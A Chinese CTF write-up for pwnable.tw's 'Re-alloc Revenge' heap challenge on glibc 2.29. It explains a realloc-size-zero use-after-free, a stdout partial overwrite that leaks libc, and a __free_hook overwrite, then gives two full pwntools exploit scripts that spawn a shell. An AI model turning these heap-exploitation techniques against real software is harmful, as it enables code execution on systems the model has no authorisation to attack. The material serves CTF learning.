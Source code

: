 ```yaml
---
title: Re-alloc-Revenge
date: 2021-05-30 23:49:43
tags:
layout: post
---
```

Re-alloc Revenge in pwnable.tw
<!--more-->
# Prologue

realloc-revenge是realloc那题的一个加强版，主要逻辑不变，在allocate里面的realloc变成了malloc，保护全开，依然是2.29的libc。最佳我做到的应该是1/16，只需要猜stdout的半个字节。

# Tricks

漏洞点是realloc在设定size为0时执行free但是指针不清空所有有UAF有几个组合技巧。

本文的伪代码第一个参数为指针的idx，第二个参数为size，第三个参数是写入内容。

## Modify Arbitrary Address

一共就两个可用指针，malloc最大0x78，想要控制任意地址就需要利用realloc的切割。

```python
malloc(0,0x78)
realloc(0,0)
realloc(0,0x78,p64(Arbitrary Address))
malloc(1,0x78)
realloc(1,0x28)
free(1)
malloc(1,0x78,Paylaod)
```

## Fill  tcache

填满tcache需要6个chunk，要求是尽可能只用掉一个size的list，因为如果用切割那么会填满2个而我们后面还有为了清空指针切割两次的操作会用到 `0x80→0x40*2→0x20*2`。可以使用 `realloc-expand`来搞定。

```python
for x in range(7):
    add(0,0x28)
    realloc(0,0x68)
    free(0)
add(0,0x28)
realloc(0,0x68)
add(1,0x18)
free(0)
```

## Edit

这个也不算什么组合。。就是正常的realloc为0之后realloc原来的大小就可以看成是edit了。

# Solution

因为这题我走了些弯路所以有比较直接的1/256的做法和比较绕圈圈的1/16做法。先讲1/16的做法。

## 1/16

要想1/16所堆绝对不能猜，也就是不能用管理tcache的结构体。只能靠填满tcache然后用consolidate来获得一个smallbin。前文的Tricks中已经讲了如何填满tcache所以后面要做的是在menu等待输入的时候输入 `'1'*0x400` 就可以触发。之后比烦需要改两次，一次是把tcache劫持指向获得的smallbin，第二次是把smallbin用前面说到的 `Modify Arbitrary Address` 来partial write smallbin的fd(此处猜1/16)。接着IO_LEAK，之后控制free_hook+get shell，写了70多行。

```python
from pwn import *
context.arch='amd64'
context.terminal=['tmux','split','-h']
def cmd(c):
    p.sendlineafter("ice: ",str(c))
def add(idx,size,c="A"):
    cmd(1)
    p.sendlineafter(":",str(idx))
    p.sendlineafter(":",str(size))
    p.sendafter(":",c)
def realloc(idx,size,c="A"):
    cmd(2)
    p.sendlineafter(":",str(idx))
    p.sendlineafter(":",str(size))
    if(size>0):
        p.sendafter(":",c)
def free(idx):
    cmd(3)
    p.sendlineafter(":",str(idx))
p=remote("chall.pwnable.tw",10310)
#p=process('./pwn')
try:
    add(0,0x28)
    free(0)
    for x in range(6):
        add(0,0x18)
        realloc(0,0x78)
        free(0)
    add(0,0x18)
    realloc(0,0x78)
    add(1,0x18)
    realloc(1,0x78)
    free(1)
    free(0)
    cmd("1"*0x400)
    add(0,0x78)
    realloc(0,0)
    realloc(0,0x28,b'\x90')
    add(1,0x78)
    realloc(1,0x28)
    free(1)
    add(1,0x58)
    realloc(1,0x58,b'\x60\x37')
    realloc(0,0x28,b'\0'*0x10)
    free(0)
    add(0,0x78)
    realloc(0,0x28)
    free(0)
    add(0,0x78,p64(0xfbad1800)+b'\0'*0x18)
    p.read(0x58)
    base=u64(p.read(8))-(0x7ffff7fc1560-0x7ffff7ddb000)
    log.warning(hex(base))
    context.log_level='debug'
    realloc(1,0x28,b'\0'*0x28)
    free(1)
    add(1,0x68)
    realloc(1,0)
    realloc(1,0x18)
    free(1)
    add(1,0x68,b'\0'*0x18+p64(0x71)+p64(0x1e75a8-8+base))
    free(1)
    add(1,0x48)
    free(1)
    add(1,0x48,b'/bin/sh\0'+p64(0x52fd0+base))
    free(1)
    p.interactive()
except Exception:
    p.close()
```

## 1/256

这个方法比较容易想到，就是先猜1/16控制tcache的结构体，之后因为可以随意edit所以就可以随意把chunk放进unsortedbin之类的地方。之后再edit一次把目标获得+partial write，之后就可以IO_LEAK了，后面没什么区别思路也比较直接，不过需要1/256。

```python
from pwn import *
context.arch='amd64'
context.terminal=['tmux','split','-h']
def cmd(c):
    p.sendlineafter("ice: ",str(c))
def add(idx,size,c="A"):
    cmd(1)
    p.sendlineafter(":",str(idx))
    p.sendlineafter(":",str(size))
    p.sendafter(":",c)
def realloc(idx,size,c="A"):
    cmd(2)
    p.sendlineafter(":",str(idx))
    p.sendlineafter(":",str(size))
    if(size>0):
        p.sendafter(":",c)
def free(idx):
    cmd(3)
    p.sendlineafter(":",str(idx))
#p=remote("chall.pwnable.tw",10310)
p=process('./pwn')
try:
    add(0,0x38)
    add(1,0x38)
    free(1)
    realloc(0,0)
    realloc(0,0x38,'\x10\x90')
    add(1,0x38)
    realloc(1,0x18)
    free(1)
    add(1,0x38,'\0'*0x1d+'\xff'*0x1)
    realloc(1,0x58,'\0')
    realloc(0,0x18,'\0'*0x18)
    free(0)
    realloc(1,0x78,'\0'*0x60+'\x60\x37')
    #gdb.attach(p)
    add(0,0x58,p64(0x1800)+b'\0'*0x18)
    context.log_level='debug'
    p.read(0x58)
    base=u64(p.read(8))-(0x7ffff7fc1560-0x7ffff7ddb000)
    log.warning(hex(base))
    realloc(1,0x78,b'\0'*0x60+p64(base+0x1e75a8-8))
    free(1)
    add(1,0x58,b'/bin/sh\0'+p64(0x52fd0+base))
    free(1)
    p.interactive()
except Exception:
    p.close
```

# Epilogue

这题过程中我发现了我之前一直认识错误的东西，我以为IO LEAK需要1/4096的概率（因为我3年前第一次做的时候关了aslr导致以为要写一个字节，后面就定式思维了），其实main_arena后面不远处就是stdout，所以有些情况下不需要多写那个字节，前面说的1/16还有1/256也不是严格的，因为load的地址随机化也有影响：具体是需要乘上系数 `7/16`，因为 unsorted pointer 的offset是0x1e4ca0 而stdout的offset是0x1e5760。

发现自己傻逼了3年。